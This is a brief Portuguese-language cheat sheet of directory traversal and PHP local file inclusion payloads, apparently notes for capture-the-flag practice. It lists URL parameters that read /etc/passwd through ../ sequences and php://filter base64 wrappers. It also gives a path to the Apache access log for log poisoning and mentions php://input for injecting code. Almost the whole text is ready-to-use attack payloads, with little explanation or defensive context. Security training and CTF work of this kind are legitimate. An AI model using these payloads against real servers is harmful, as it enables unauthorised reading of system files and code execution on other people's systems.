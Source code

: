 ### Directory Traversal padrão
Sequências como ../ (ponto-ponto-barra)
- http://exemplo.com/pagina.php?arquivo=../../../../etc/passwd






### Em ambientes PHP vulneráveis, podemos usar wrappers
Como php://filter para ler o conteúdo de arquivos (geralmente codificado, para contornar a execução) ou php://input para injetar código.
- php://filter/convert.base64-encode/resource=dog/../flag
- ../../../../../../../var/log/apache2/access.log&ext   (com o "ext" podemos remover a extensão ".php" apenas definindo-a na consulta)
- http://exemplo.com/pagina.php?arquivo=php://filter/read=convert.base64-encode/resource=/etc/passwd
